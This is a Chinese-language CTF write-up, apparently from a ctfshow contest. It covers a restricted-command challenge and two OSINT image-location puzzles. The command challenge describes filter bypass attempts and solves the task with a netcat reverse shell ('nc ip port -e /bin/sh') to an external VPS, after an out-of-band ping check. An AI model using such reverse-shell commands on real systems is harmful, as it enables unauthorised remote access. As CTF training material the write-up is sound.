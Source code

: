 ![20220805175813](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805175813.png)

命令被限制死了只能执行 ping ls nc ifconfig

单独的 `escapeshellcmd()` 网上搜了一圈也没发现绕过方法

多句执行无效, `|` `<` `>` `;` 反引号都被过滤了, win 本机测试的效果是前面加上 `^`

于是换了个思路, 借了台朋友的 vps, nc 直接弹 shell

![20220805180322](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805180322.png)

![20220805180407](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805180407.png)

这题一开始做的时候:

想着 ifconfig 会不会是开启网卡用的, 于是 `ifconfig eth0-9 up` 都开了个遍

然后 ping 了一下我的 ceye.io 地址, 发现存在记录

最后 `nc ip port -e /bin/sh` 直接弹了个 shell 查看 flag

写 wp 的时候发现 ifconfig 和 ping 那两步其实并不需要, 直接 nc 也能弹 shell, 不太理解给剩下三个命令是什么意思...

# OSINT

## 社工签到

![osint1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/osint1.jpeg)

flag 格式 `ctfshow{小镇名字}`

让我们找到这个小镇的名字

Google 搜图 `https://www.google.com.hk/imghp`

![20220805180909](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805180909.png)

点开一个

![20220805180922](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805180922.png)

`天涯镇` 一开始提交失败, 然后换成 `天涯小镇` 提交成功

后面又发了公告应该把 flag 改正过来了

## 迷失的大象

![osint2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/osint2.jpeg)

flag 格式 `ctfshow{原籍县区全称}`

依然是搜图

![20220805181125](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220805181125.png)
